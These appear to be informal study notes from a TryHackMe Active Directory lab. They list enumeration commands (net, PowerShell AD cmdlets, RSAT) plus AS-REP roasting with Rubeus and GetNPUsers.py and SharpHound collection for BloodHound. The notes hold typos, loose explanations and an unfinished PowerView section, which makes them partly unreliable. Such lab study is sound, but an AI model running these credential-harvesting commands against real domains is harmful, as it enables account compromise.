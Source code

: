 # RUNAS 
runas.exe /netonly /user:<domain>\<username> cmd.exe


runas allow ton login as user without authentifiate to the controler, the netonly controler.

## SYSVOL
a folder existing in all Active directory, contains all GPO (Group Policy Object).

## DNS 
a dns need to be configured sometime the DNS is configured on login but sometime we need to configure it manually .

Set-DnsClientServerAddress -InterfaceIndex $index -ServerAddresses $dnsip


# IP VS DNS 
use the DNS to go to the dir will use kerberos to authentificate.
but because kerberos use the DNS to inject auth if we use the IP to go to a network auth that will use NTLM /

# RSAT 
is a GUI enumeration tech 

1 - search for optioanl feature RSAT 
2 - go in the MMC (management console ) use Runas to login in 
3 - File -> Add/Remove Snap-in
4 - Right-click on Active Directory Domains and Trusts and select Change Forest
Right-click on Active Directory Sites and Services and select Change Forest
Enter {domain} as the Root domain and Click OK
Right-click on Active Directory Users and Computers and select Change Domain
Enter {domain} as the Domain and Click OK
Right-click on Active Directory Users and Computers in the left-hand pane
Click on View -> Advanced Features


# AS-REP Roasting

its a technique to get the password from  the kerberos . 
some users can have disabled the feature of pre-auth keberos (avoid to send the timespan with the key).
with this we can recover the password. this attah have 2 phase : 

## enumeration :

### Rubeus (Windows only): 

Rubeus.exe asreproast

### Impacket’s GetNPUsers.py (Linux/Windows): 

GetNPUsers.py tryhackme.loc/ -dc-ip {DC-IP} -usersfile {userfile} -format hashcat -outputfile hashes.txt -no-pass

to do that we will enumerate the user file and he will try each user 

# CMD
## whoiam

whoami /all

## net command 
some command are used to listed the domain object, linited to 10.
these command work only on a domain joined network. but to have local info remove the /domain at the end 
net user /domain # list all user
net user {special user } /domain # list for specific user
net group  /domain # list all goup
net group {special goup} /domain # list specific group
net accounts /domain # list password policy 

# POWERSHELL 

Get-ADUser -Identity gordon.stevens -Server {domain} -Properties * # list porperty of a special user
Get-ADUser -Filter 'Name -like "*{something}"' -Server {domain} -Properties * # list user based on progile
Get-ADComputer -Filter * 
Get-ADGroup -Identity {GROUP} -Server {domain}

Get-ADGroupMember -Identity Administrators -Server za.tryhackme.com # enumerate account in group

Get-ADObject # GET a object in AD 

Get-ADDomain -Server {domain}

Set-ADAccountPassword # change password 

#PowerView

TO COMPLETE 

# Bloodhound. 
Bloodhound is the most powerful AD enumeration tool to date

Bloodohund  allow to see AD attack in a graph way ! 
to attack with Bloodhound we need to use Sharphound a attack vector in 3 way : 
- Sharphound.ps1 
- Sharphound.exe 
- AzureHound.ps1

fer exemple the exe will be used like :
 
 Sharphound.exe --CollectionMethods <Methods> --Domain za.tryhackme.com --ExcludeDCs

the Collection method can be : 

- all 
a zip will be generated for our bloodhund 

# Run bloodhund 

to run bloodhund we need : 
- docker 
- cloodhund cli